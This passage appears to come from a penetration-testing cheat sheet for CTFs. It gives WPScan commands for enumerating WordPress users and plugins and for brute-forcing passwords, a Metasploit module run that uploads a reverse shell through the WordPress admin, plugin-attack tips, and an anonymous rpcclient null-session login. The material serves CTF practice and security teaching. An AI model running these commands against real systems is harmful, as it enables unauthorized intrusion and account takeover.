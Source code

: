 
#### 🔎 Scan for Plugins, Themes, and Vulnerabilities with WPScan
```bash
gem install wpscan
wpscan --url http://<HOST_IP> --enumerate u,vt,tt,cb,dbe --plugins-detection aggressive
```
- Use with credentials:
```bash
wpscan --url http://<HOST_IP> --usernames admin --passwords wordlist.dic
```

---

#### 🐚 Reverse Shell via Admin Upload (Metasploit)
```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOST <HOST_IP>
set USERNAME admin
set PASSWORD <password>
run
```

---

### 🎯 Pro Tips for CTFs:

- **Check `/readme.html` or `wp-includes/version.php`** for WordPress version leakage.
- **Always enumerate users first** to reduce brute force attempts:
```bash
wpscan --url http://<HOST_IP> --enumerate u
```
- **Scan for outdated plugins/themes**—they’re frequent attack vectors.
- **Look for writable upload directories or `eval()` usage** in plugin files.
- **Try LFI/SQLi on lesser-known plugins** if source code or version is known.

---

### 🛰️ RPC Open

If port **135** (or **445** with RPC over SMB) is open, it indicates a Windows host with Remote Procedure Call (RPC) capabilities. Misconfigured RPC access can expose usernames, shares, and domain info.

---

#### 🔐 Anonymous RPC Login
```bash
rpcclient -U "" <HOST_IP>
```
Press **Enter** when prompted for a password to attempt a null session.

---
